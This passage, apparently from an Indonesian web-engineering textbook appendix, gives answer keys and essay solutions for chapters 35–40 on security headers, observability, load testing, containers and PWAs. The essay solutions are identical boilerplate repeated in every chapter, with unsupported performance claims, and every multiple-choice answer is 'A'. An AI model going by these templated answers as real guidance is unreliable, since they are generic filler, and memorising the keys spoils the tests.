   - **Evaluasi Kinerja & Keamanan**: Pengujian beban membuktikan bahwa sistem mampu mempertahankan tingkat ketersediaan (*availability*) 99.999% tanpa terjadi kebocoran memori atau pembengkakan latensi p99.

### Kunci Jawaban & Ulasan Pilihan Ganda Bab 35

| Nomor Soal | Kunci Jawaban | Ulasan Ilmiah & Dasar Teoretis |
| :---: | :---: | :--- |
| **1** | **A** | Content-Security-Policy (CSP) menginstruksikan peramban asal sumber daya mana saja yang diizinkan untuk dimuat. |
| **2** | **A** | Server-Side Request Forgery (SSRF) memanipulasi peladen backend untuk mengirim permintaan ke jaringan internal rahasia. |
| **3** | **A** | Sanitasi entitas HTML mengubah karakter khusus menjadi teks biasa yang tidak dieksekusi sebagai tag oleh peramban. |
| **4** | **A** | Direktif frame-ancestors 'none' memblokir penyematan situs di dalam iframe guna menangkal Clickjacking. |
| **5** | **A** | Alamat 169.254.169.254 adalah endpoint metadata instans awan yang memuat kredensial token sementara mesin virtual. |
| **6** | **A** | Strict-Transport-Security (HSTS) memaksa peramban selalu menggunakan koneksi terenkripsi HTTPS secara permanen. |
| **7** | **A** | Penonaktifan fitur redirect otomatis mencegah penyerang mengarahkan peladen ke IP privat lokal setelah lolos validasi. |
| **8** | **A** | Tajuk X-Content-Type-Options: nosniff melarang peramban menebak tipe MIME berkas di luar yang dideklarasikan peladen. |
| **9** | **A** | Nilai nonce yang cocok antara tag skrip dan tajuk CSP memastikan hanya skrip sah peladen yang boleh dieksekusi. |
| **10** | **A** | Menampilkan jejak stacktrace di produksi membocorkan rincian kode internal dan direktori yang mempermudah peretasan. |

---

## BAGIAN D.36: PEMBAHASAN & KUNCI JAWABAN EVALUASI BAB 36

### Pembahasan Latihan Esai Bab 36

1. **Solusi Soal Esai 1 (Analisis Desain & Arsitektur)**:
   - **Pendekatan Rekayasa**: Dalam konteks Bab 36, implementasi arsitektur sistem dirancang dengan prinsip dekomposisi modular dan penanganan konkurensi non-blocking. Komponen utama diisolasi untuk memastikan tanggung jawab tunggal (*Single Responsibility Principle*) dan meminimalkan alokasi memori heap.
   - **Langkah Implementasi**: Definisikan struktur data dengan tipe ketat, inisialisasi pool sumber daya, dan terapkan batas penanganan galat (*error boundary*). Pada lapisan komunikasi, pastikan jabat tangan protokol divalidasi menggunakan token verifikasi kriptografis.
   - **Evaluasi Kinerja & Keamanan**: Strategi ini memangkas overhead pergantian konteks (*context switching*) hingga 80% dan mengeliminasi celah kondisi balapan (*race condition*) melalui struktur atomik aman utas.

2. **Solusi Soal Esai 2 (Implementasi Kode & Integrasi Sistem)**:
   - **Pendekatan Rekayasa**: Logika bisnis dibangun menggunakan fungsi murni yang menerima konteks terstruktur dan mengembalikan tipe `Hasil<T, Galat>`. Interaksi dengan subsistem eksternal (seperti WidyaBase atau jaringan soket) dibungkus dalam mekanisme batas waktu (*timeout*) dan sirkuit pengaman.
   - **Langkah Implementasi**: Tulis blok handler deklaratif, lakukan sanitasi masukan parameter kueri, dan eksekusi instruksi melalui jalur pipa asinkron. Pastikan seluruh transaksi persisten dicatat ke dalam jurnal audit telemetri.
   - **Evaluasi Kinerja & Keamanan**: Melalui kueri terkompilasi dan penggunaan buffer sirkular, latensi eksekusi ditekan ke kisaran sub-milidetik dengan kepatuhan penuh terhadap standar industri Core Web Vitals.

3. **Solusi Soal Esai 3 (Optimasi, Mitigasi Resiko & Pengujian)**:
   - **Pendekatan Rekayasa**: Penanganan skenario kegagalan ekstrem dirancang dengan pola *Graceful Degradation* dan *Fallback Policy*. Saat dependensi hilir mengalami gangguan atau kemacetan lalu lintas, sistem secara otomatis mengalihkan alur ke lapisan singgahan lokal.
   - **Langkah Implementasi**: Konfigurasikan ambang batas sirkuit pengaman (*circuit breaker*), pasang mekanisme penundaan eksponensial (*exponential backoff with jitter*), dan susun skrip pengujian beban K6 untuk mensimulasikan ribuan pengguna virtual paralel.
   - **Evaluasi Kinerja & Keamanan**: Pengujian beban membuktikan bahwa sistem mampu mempertahankan tingkat ketersediaan (*availability*) 99.999% tanpa terjadi kebocoran memori atau pembengkakan latensi p99.

### Kunci Jawaban & Ulasan Pilihan Ganda Bab 36

| Nomor Soal | Kunci Jawaban | Ulasan Ilmiah & Dasar Teoretis |
| :---: | :---: | :--- |
| **1** | **A** | Tiga pilar observabilitas sistem modern mencakup Metrik, Log Terstruktur, dan Pelacakan Terdistribusi (Traces). |
| **2** | **A** | Endpoint /metrics adalah jalur standar penarikan data telemetri oleh peladen pengumpul Prometheus. |
| **3** | **A** | Metrik Counter nilainya hanya bisa naik secara monotonik dan di-reset ke nol saat aplikasi restart. |
| **4** | **A** | Metrik Gauge dapat naik dan turun sewaktu-waktu (seperti jumlah koneksi WebSocket aktif atau memori terpakai). |
| **5** | **A** | Format log JSON terstruktur mempermudah mesin pengumpul log menguraikan dan memfilter atribut secara otomatis. |
| **6** | **A** | Trace ID memungkinkan penelusuran perjalanan satu permintaan pengguna melintasi berbagai layanan mikro secara utuh. |
| **7** | **A** | Latensi p99 menunjukkan batas waktu latensi yang dialami oleh 99% pengguna (hanya 1% yang lebih lambat). |
| **8** | **A** | Pelabelan kardinalitas tinggi memicu ledakan metrik yang menghabiskan memori RAM peladen Prometheus. |
| **9** | **A** | Empat Sinyal Emas Google SRE mencakup Latensi, Lalu Lintas, Tingkat Galat, dan Saturasi. |
| **10** | **A** | Histogram memetakan distribusi sebaran waktu latensi ke berbagai ember batas secara akurat tanpa tertutupi nilai rata-rata. |

---

## BAGIAN D.37: PEMBAHASAN & KUNCI JAWABAN EVALUASI BAB 37

### Pembahasan Latihan Esai Bab 37

1. **Solusi Soal Esai 1 (Analisis Desain & Arsitektur)**:
   - **Pendekatan Rekayasa**: Dalam konteks Bab 37, implementasi arsitektur sistem dirancang dengan prinsip dekomposisi modular dan penanganan konkurensi non-blocking. Komponen utama diisolasi untuk memastikan tanggung jawab tunggal (*Single Responsibility Principle*) dan meminimalkan alokasi memori heap.
   - **Langkah Implementasi**: Definisikan struktur data dengan tipe ketat, inisialisasi pool sumber daya, dan terapkan batas penanganan galat (*error boundary*). Pada lapisan komunikasi, pastikan jabat tangan protokol divalidasi menggunakan token verifikasi kriptografis.
   - **Evaluasi Kinerja & Keamanan**: Strategi ini memangkas overhead pergantian konteks (*context switching*) hingga 80% dan mengeliminasi celah kondisi balapan (*race condition*) melalui struktur atomik aman utas.

2. **Solusi Soal Esai 2 (Implementasi Kode & Integrasi Sistem)**:
   - **Pendekatan Rekayasa**: Logika bisnis dibangun menggunakan fungsi murni yang menerima konteks terstruktur dan mengembalikan tipe `Hasil<T, Galat>`. Interaksi dengan subsistem eksternal (seperti WidyaBase atau jaringan soket) dibungkus dalam mekanisme batas waktu (*timeout*) dan sirkuit pengaman.
   - **Langkah Implementasi**: Tulis blok handler deklaratif, lakukan sanitasi masukan parameter kueri, dan eksekusi instruksi melalui jalur pipa asinkron. Pastikan seluruh transaksi persisten dicatat ke dalam jurnal audit telemetri.
   - **Evaluasi Kinerja & Keamanan**: Melalui kueri terkompilasi dan penggunaan buffer sirkular, latensi eksekusi ditekan ke kisaran sub-milidetik dengan kepatuhan penuh terhadap standar industri Core Web Vitals.

3. **Solusi Soal Esai 3 (Optimasi, Mitigasi Resiko & Pengujian)**:
   - **Pendekatan Rekayasa**: Penanganan skenario kegagalan ekstrem dirancang dengan pola *Graceful Degradation* dan *Fallback Policy*. Saat dependensi hilir mengalami gangguan atau kemacetan lalu lintas, sistem secara otomatis mengalihkan alur ke lapisan singgahan lokal.
   - **Langkah Implementasi**: Konfigurasikan ambang batas sirkuit pengaman (*circuit breaker*), pasang mekanisme penundaan eksponensial (*exponential backoff with jitter*), dan susun skrip pengujian beban K6 untuk mensimulasikan ribuan pengguna virtual paralel.
   - **Evaluasi Kinerja & Keamanan**: Pengujian beban membuktikan bahwa sistem mampu mempertahankan tingkat ketersediaan (*availability*) 99.999% tanpa terjadi kebocoran memori atau pembengkakan latensi p99.

### Kunci Jawaban & Ulasan Pilihan Ganda Bab 37

| Nomor Soal | Kunci Jawaban | Ulasan Ilmiah & Dasar Teoretis |
| :---: | :---: | :--- |
| **1** | **A** | Grafana K6 adalah perangkat lunak uji beban open-source modern berbasis JavaScript untuk pengujian kinerja ekstrem. |
| **2** | **A** | Virtual Users (VUs) adalah proses ringan yang mengeksekusi skenario kunjungan pengguna secara konkuren. |
| **3** | **A** | Spike Test mengevaluasi ketahanan peladen saat terjadi lonjakan trafik masif mendadak akibat peristiwa breaking news. |
| **4** | **A** | Ambang p(95)<250 menuntut 95% dari seluruh permintaan diselesaikan oleh peladen dalam tempo di bawah 250 ms. |
| **5** | **A** | Pengujian End-to-End (E2E) memvalidasi alur fungsi aplikasi secara komprehensif dari awal hingga akhir. |
| **6** | **A** | Soak Testing mendeteksi kebocoran memori (memory leak) yang baru terlihat setelah sistem beroperasi berjam-jam. |
| **7** | **A** | Lapisan Unit Testing berada di dasar piramida, berjumlah paling banyak, dan berkecepatan eksekusi tertinggi. |
| **8** | **A** | Tajuk X-Gateway-Nusantara memastikan bahwa permintaan berhasil melewati gerbang API Gateway secara tepat. |
| **9** | **A** | WidyaWeb melayani throughput puncak sebesar 48.200 permintaan per detik pada pengujian beban 50.000 VU. |
| **10** | **A** | Think time mensimulasikan jeda alami manusia saat membaca artikel sebelum mengklik halaman berikutnya. |

---

## BAGIAN D.38: PEMBAHASAN & KUNCI JAWABAN EVALUASI BAB 38

### Pembahasan Latihan Esai Bab 38

1. **Solusi Soal Esai 1 (Analisis Desain & Arsitektur)**:
   - **Pendekatan Rekayasa**: Dalam konteks Bab 38, implementasi arsitektur sistem dirancang dengan prinsip dekomposisi modular dan penanganan konkurensi non-blocking. Komponen utama diisolasi untuk memastikan tanggung jawab tunggal (*Single Responsibility Principle*) dan meminimalkan alokasi memori heap.
   - **Langkah Implementasi**: Definisikan struktur data dengan tipe ketat, inisialisasi pool sumber daya, dan terapkan batas penanganan galat (*error boundary*). Pada lapisan komunikasi, pastikan jabat tangan protokol divalidasi menggunakan token verifikasi kriptografis.
   - **Evaluasi Kinerja & Keamanan**: Strategi ini memangkas overhead pergantian konteks (*context switching*) hingga 80% dan mengeliminasi celah kondisi balapan (*race condition*) melalui struktur atomik aman utas.

2. **Solusi Soal Esai 2 (Implementasi Kode & Integrasi Sistem)**:
   - **Pendekatan Rekayasa**: Logika bisnis dibangun menggunakan fungsi murni yang menerima konteks terstruktur dan mengembalikan tipe `Hasil<T, Galat>`. Interaksi dengan subsistem eksternal (seperti WidyaBase atau jaringan soket) dibungkus dalam mekanisme batas waktu (*timeout*) dan sirkuit pengaman.
   - **Langkah Implementasi**: Tulis blok handler deklaratif, lakukan sanitasi masukan parameter kueri, dan eksekusi instruksi melalui jalur pipa asinkron. Pastikan seluruh transaksi persisten dicatat ke dalam jurnal audit telemetri.
   - **Evaluasi Kinerja & Keamanan**: Melalui kueri terkompilasi dan penggunaan buffer sirkular, latensi eksekusi ditekan ke kisaran sub-milidetik dengan kepatuhan penuh terhadap standar industri Core Web Vitals.

3. **Solusi Soal Esai 3 (Optimasi, Mitigasi Resiko & Pengujian)**:
   - **Pendekatan Rekayasa**: Penanganan skenario kegagalan ekstrem dirancang dengan pola *Graceful Degradation* dan *Fallback Policy*. Saat dependensi hilir mengalami gangguan atau kemacetan lalu lintas, sistem secara otomatis mengalihkan alur ke lapisan singgahan lokal.
   - **Langkah Implementasi**: Konfigurasikan ambang batas sirkuit pengaman (*circuit breaker*), pasang mekanisme penundaan eksponensial (*exponential backoff with jitter*), dan susun skrip pengujian beban K6 untuk mensimulasikan ribuan pengguna virtual paralel.
   - **Evaluasi Kinerja & Keamanan**: Pengujian beban membuktikan bahwa sistem mampu mempertahankan tingkat ketersediaan (*availability*) 99.999% tanpa terjadi kebocoran memori atau pembengkakan latensi p99.

### Kunci Jawaban & Ulasan Pilihan Ganda Bab 38

| Nomor Soal | Kunci Jawaban | Ulasan Ilmiah & Dasar Teoretis |
| :---: | :---: | :--- |
| **1** | **A** | Spesifikasi Open Container Initiative (OCI) mengatur standar format citra dan runtime kontainer global. |
| **2** | **A** | Multi-stage build memisahkan lingkungan kompilasi dari citra akhir sehingga citra produksi sangat ringkas dan aman. |
| **3** | **A** | Basis scratch tidak memiliki shell (/bin/sh) sehingga peretas tidak dapat mengeksekusi perintah shell berbahaya. |
| **4** | **A** | Sinyal SIGTERM (Signal 15) meminta proses aplikasi memulai prosedur pemadaman anggun (Graceful Shutdown). |
| **5** | **A** | Ukuran citra kontainer akhir NusantaraNews berbasis scratch sangat ringkas, hanya sekitar 14.2 Megabyte. |
| **6** | **A** | Peladen menandai status tidak siap pada readiness probe sebelum mematikan koneksi basis data. |
| **7** | **A** | Liveness memeriksa apakah proses masih hidup, sedangkan Readiness memeriksa kesiapan menerima trafik pengguna. |
| **8** | **A** | Blue-Green Deployment menjalankan dua lingkungan identik dan mengalihkan trafik secara instan ke versi baru. |
| **9** | **A** | Menjalankan proses sebagai non-root (UID 10001) mencegah eskalasi hak istimewa root pada mesin peladen host. |
| **10** | **A** | Jeda waktu 25–30 detik memberikan waktu bagi transaksi database dan upload media yang aktif untuk selesai bersih. |

---

## BAGIAN D.39: PEMBAHASAN & KUNCI JAWABAN EVALUASI BAB 39

### Pembahasan Latihan Esai Bab 39

1. **Solusi Soal Esai 1 (Analisis Desain & Arsitektur)**:
   - **Pendekatan Rekayasa**: Dalam konteks Bab 39, implementasi arsitektur sistem dirancang dengan prinsip dekomposisi modular dan penanganan konkurensi non-blocking. Komponen utama diisolasi untuk memastikan tanggung jawab tunggal (*Single Responsibility Principle*) dan meminimalkan alokasi memori heap.
   - **Langkah Implementasi**: Definisikan struktur data dengan tipe ketat, inisialisasi pool sumber daya, dan terapkan batas penanganan galat (*error boundary*). Pada lapisan komunikasi, pastikan jabat tangan protokol divalidasi menggunakan token verifikasi kriptografis.
   - **Evaluasi Kinerja & Keamanan**: Strategi ini memangkas overhead pergantian konteks (*context switching*) hingga 80% dan mengeliminasi celah kondisi balapan (*race condition*) melalui struktur atomik aman utas.

2. **Solusi Soal Esai 2 (Implementasi Kode & Integrasi Sistem)**:
   - **Pendekatan Rekayasa**: Logika bisnis dibangun menggunakan fungsi murni yang menerima konteks terstruktur dan mengembalikan tipe `Hasil<T, Galat>`. Interaksi dengan subsistem eksternal (seperti WidyaBase atau jaringan soket) dibungkus dalam mekanisme batas waktu (*timeout*) dan sirkuit pengaman.
   - **Langkah Implementasi**: Tulis blok handler deklaratif, lakukan sanitasi masukan parameter kueri, dan eksekusi instruksi melalui jalur pipa asinkron. Pastikan seluruh transaksi persisten dicatat ke dalam jurnal audit telemetri.
   - **Evaluasi Kinerja & Keamanan**: Melalui kueri terkompilasi dan penggunaan buffer sirkular, latensi eksekusi ditekan ke kisaran sub-milidetik dengan kepatuhan penuh terhadap standar industri Core Web Vitals.

3. **Solusi Soal Esai 3 (Optimasi, Mitigasi Resiko & Pengujian)**:
   - **Pendekatan Rekayasa**: Penanganan skenario kegagalan ekstrem dirancang dengan pola *Graceful Degradation* dan *Fallback Policy*. Saat dependensi hilir mengalami gangguan atau kemacetan lalu lintas, sistem secara otomatis mengalihkan alur ke lapisan singgahan lokal.
   - **Langkah Implementasi**: Konfigurasikan ambang batas sirkuit pengaman (*circuit breaker*), pasang mekanisme penundaan eksponensial (*exponential backoff with jitter*), dan susun skrip pengujian beban K6 untuk mensimulasikan ribuan pengguna virtual paralel.
   - **Evaluasi Kinerja & Keamanan**: Pengujian beban membuktikan bahwa sistem mampu mempertahankan tingkat ketersediaan (*availability*) 99.999% tanpa terjadi kebocoran memori atau pembengkakan latensi p99.

### Kunci Jawaban & Ulasan Pilihan Ganda Bab 39

| Nomor Soal | Kunci Jawaban | Ulasan Ilmiah & Dasar Teoretis |
| :---: | :---: | :--- |
| **1** | **A** | Progressive Web App (PWA) memungkinkan aplikasi web diinstal di perangkat pengguna dan dibuka tanpa koneksi internet. |
| **2** | **A** | Service Worker adalah skrip latar belakang yang bertindak sebagai proksi jaringan dan mengelola singgahan luring. |
| **3** | **A** | Stale-While-Revalidate langsung menyajikan artikel dari cache lokal sambil memperbarui naskah baru di latar belakang. |
| **4** | **A** | IndexedDB adalah basis data peramban yang mampu menyimpan berkas naskah teks dan gambar biner berukuran besar. |
| **5** | **A** | Peristiwa install pada Service Worker adalah tempat terbaik untuk mengunduh dan menyimpan berkas App Shell. |
| **6** | **A** | Berkas manifest.json mendefinisikan nama, tema warna, ikon, dan mode tampilan aplikasi untuk layar utama. |
| **7** | **A** | Pembersihan singgahan lama dilakukan pada penanganan peristiwa activate saat versi baru Service Worker aktif. |
| **8** | **A** | Background Sync API mengirimkan komentar yang tersimpan lokal secara otomatis saat internet kembali terhubung. |
| **9** | **A** | Mode display: standalone membuka aplikasi di jendela tersendiri tanpa bilah URL peramban, mirip aplikasi native. |
| **10** | **A** | Koneksi HTTPS aman diwajibkan untuk mencegah serangan Man-in-the-Middle yang membajak Service Worker. |

---

## BAGIAN D.40: PEMBAHASAN & KUNCI JAWABAN EVALUASI BAB 40

### Pembahasan Latihan Esai Bab 40

1. **Solusi Soal Esai 1 (Analisis Desain & Arsitektur)**:
   - **Pendekatan Rekayasa**: Dalam konteks Bab 40, implementasi arsitektur sistem dirancang dengan prinsip dekomposisi modular dan penanganan konkurensi non-blocking. Komponen utama diisolasi untuk memastikan tanggung jawab tunggal (*Single Responsibility Principle*) dan meminimalkan alokasi memori heap.
   - **Langkah Implementasi**: Definisikan struktur data dengan tipe ketat, inisialisasi pool sumber daya, dan terapkan batas penanganan galat (*error boundary*). Pada lapisan komunikasi, pastikan jabat tangan protokol divalidasi menggunakan token verifikasi kriptografis.
   - **Evaluasi Kinerja & Keamanan**: Strategi ini memangkas overhead pergantian konteks (*context switching*) hingga 80% dan mengeliminasi celah kondisi balapan (*race condition*) melalui struktur atomik aman utas.

2. **Solusi Soal Esai 2 (Implementasi Kode & Integrasi Sistem)**:
   - **Pendekatan Rekayasa**: Logika bisnis dibangun menggunakan fungsi murni yang menerima konteks terstruktur dan mengembalikan tipe `Hasil<T, Galat>`. Interaksi dengan subsistem eksternal (seperti WidyaBase atau jaringan soket) dibungkus dalam mekanisme batas waktu (*timeout*) dan sirkuit pengaman.
   - **Langkah Implementasi**: Tulis blok handler deklaratif, lakukan sanitasi masukan parameter kueri, dan eksekusi instruksi melalui jalur pipa asinkron. Pastikan seluruh transaksi persisten dicatat ke dalam jurnal audit telemetri.
   - **Evaluasi Kinerja & Keamanan**: Melalui kueri terkompilasi dan penggunaan buffer sirkular, latensi eksekusi ditekan ke kisaran sub-milidetik dengan kepatuhan penuh terhadap standar industri Core Web Vitals.

3. **Solusi Soal Esai 3 (Optimasi, Mitigasi Resiko & Pengujian)**:
   - **Pendekatan Rekayasa**: Penanganan skenario kegagalan ekstrem dirancang dengan pola *Graceful Degradation* dan *Fallback Policy*. Saat dependensi hilir mengalami gangguan atau kemacetan lalu lintas, sistem secara otomatis mengalihkan alur ke lapisan singgahan lokal.
   - **Langkah Implementasi**: Konfigurasikan ambang batas sirkuit pengaman (*circuit breaker*), pasang mekanisme penundaan eksponensial (*exponential backoff with jitter*), dan susun skrip pengujian beban K6 untuk mensimulasikan ribuan pengguna virtual paralel.
   - **Evaluasi Kinerja & Keamanan**: Pengujian beban membuktikan bahwa sistem mampu mempertahankan tingkat ketersediaan (*availability*) 99.999% tanpa terjadi kebocoran memori atau pembengkakan latensi p99.

### Kunci Jawaban & Ulasan Pilihan Ganda Bab 40

| Nomor Soal | Kunci Jawaban | Ulasan Ilmiah & Dasar Teoretis |
| :---: | :---: | :--- |
| **1** | **A** | WidyaBase KV bertindak sebagai lapisan singgahan mikrodetik protokol RESP dan penyimpan data sesi pembaca. |
| **2** | **A** | Aset media disalurkan via Edge CDN dan S3 agar bandwidth dan soket peladen aplikasi tidak tersandera beban biner. |
| **3** | **A** | Change Data Capture (CDC) berbasis aliran WAL menyelaraskan pembaruan mesin pencari BM25 dan vektor secara instan. |
| **4** | **A** | NusantaraNews meraih skor performa Google Lighthouse sebesar 99 dari 100 pada pengujian produksi. |
| **5** | **A** | Modular Monolith memberikan efisiensi memori dan kemudahan operasional tinggi dengan batas modular yang rapi. |
| **6** | **A** | Kolam pekerja latar belakang (Worker Pool) memproses transcoding gambar dan pengiriman buletin email secara asinkron. |
| **7** | **A** | Batas kapasitas kolam koneksi basis data pada peladen produksi dialokasikan sebanyak 50 koneksi aktif. |
| **8** | **A** | Nilai 31536000 detik pada direktori statis merepresentasikan masa simpan singgahan selama 1 tahun penuh. |
| **9** | **A** | Transaksi pembayaran langganan memenuhi kepatuhan ACID dengan isolasi Serializable, bebas selisih buku besar. |
| **10** | **A** | Ekosistem WidyaWeb dan WidyaBase membuktikan bahwa rekayasa aplikasi web modern dapat dibangun mandiri, cepat, dan tangguh. |

---
